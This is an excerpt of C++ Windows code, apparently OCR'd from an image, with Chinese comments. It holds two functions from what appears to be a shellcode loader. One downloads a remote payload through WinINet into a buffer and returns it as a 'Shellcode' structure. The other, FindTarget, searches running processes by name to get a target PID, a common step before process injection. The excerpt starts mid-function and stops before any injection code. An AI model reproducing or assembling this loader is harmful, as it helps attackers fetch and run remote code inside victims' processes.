 ```cpp
        counter++;
        Sleep(3000);
        if (counter >= 3) {
            exit(0);
        }
    }
    DWORD bufSize = BUFSIZ;
    byte* buffer = new byte[bufSize];
    DWORD capacity = bufSize;
    byte* payload = (byte*)malloc(capacity);
    DWORD payloadSize = 0;

    while (true) {
        DWORD bytesRead;
        if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {
            exit(0);
        }
        if (bytesRead == 0) break;
        if (payloadSize + bytesRead > capacity) {
            capacity *= 2;
            byte* newPayload = (byte*)realloc(payload, capacity);
            payload = newPayload;
        }
        for (DWORD i = 0; i < bytesRead; i++) {
            payload[payloadSize++] = buffer[i];
        }
    }
    byte* newPayload = (byte*)realloc(payload, payloadSize);

    InternetCloseHandle(request);
    InternetCloseHandle(connection);
    InternetCloseHandle(session);

    struct Shellcode out;
    out.data = payload;
    out.len = payloadSize;
    return out;
}

int FindTarget(const WCHAR* procname) {
    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;
    // 返回句柄
    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;    // 拍摄快照失败，返回0
    pe32.dwSize = sizeof(PROCESSENTRY32);   // 结构大小
    // 检索快照中的信息
    if (!Process32First(hProcSnap, &pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }
    // 循环检索快照信息  
    while (Process32Next(hProcSnap, &pe32)) {
        if (lstrcmpiW(procname, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
    }
    CloseHandle(hProcSnap);
    return pid;
}

```
